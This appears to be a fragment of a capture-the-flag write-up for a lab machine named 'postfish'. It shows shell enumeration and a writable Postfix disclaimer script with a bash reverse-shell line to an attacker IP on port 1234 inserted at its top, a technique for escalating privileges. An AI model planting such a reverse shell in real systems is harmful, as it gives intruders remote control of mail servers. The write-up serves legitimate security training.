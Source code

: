 ```bash
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

You have mail.
brian.moore@postfish:~$
```

# Shell Enumeration

```bash
brian.moore@postfish:/tmp$ id
uid=1000(brian.moore) gid=1000(brian.moore) groups=1000(brian.moore),8(mail),997(filter)
brian.moore@postfish:/tmp$ ls -la /etc/postfix/disclaimer 
-rwxrwx--- 1 root filter 1184 Oct 16 00:39 /etc/postfix/disclaimer
```

Interesting file in etc folder, shared with root, filter group 

# Change the config for postfix

```bash
brian.moore@postfish:/etc/postfix$ cat disclaimer
#!/bin/bash

sh -i >& /dev/tcp/192.168.45.198/1234 0>&1

# Localize these.
INSPECT_DIR=/var/spool/filter
SENDMAIL=/usr/sbin/sendmail

####### Changed From Original Script #######
DISCLAIMER_ADDRESSES=/etc/postfix/disclaimer_addresses
####### Changed From Original Script END #######

# Exit codes from <sysexits.h>
EX_TEMPFAIL=75
EX_UNAVAILABLE=69

# Clean up when done or when aborting.
trap "rm -f in.$$" 0 1 2 3 15

# Start processing.
cd $INSPECT_DIR || { echo $INSPECT_DIR does not exist; exit
$EX_TEMPFAIL; }

cat >in.$$ || { echo Cannot save mail to file; exit $EX_TEMPFAIL; }

####### Changed From Original Script #######
# obtain From address
from_address=`grep -m 1 "From:" in.$$ | cut -d "<" -f 2 | cut -d ">" -f 1`

if [ `grep -wi ^${from_address}$ ${DISCLAIMER_ADDRESSES}` ]; then
  /usr/bin/altermime --input=in.$$ \
                   --disclaimer=/etc/postfix/disclaimer.txt \
                   --disclaimer-html=/etc/postfix/disclaimer.txt \
                   --xheader="X-Copyrighted-Material: Please visit http://www.company.com/privacy.htm" || \
                    { echo Message content rejected; exit $EX_UNAVAILABLE; }
fi
####### Changed From Original Script END #######

```
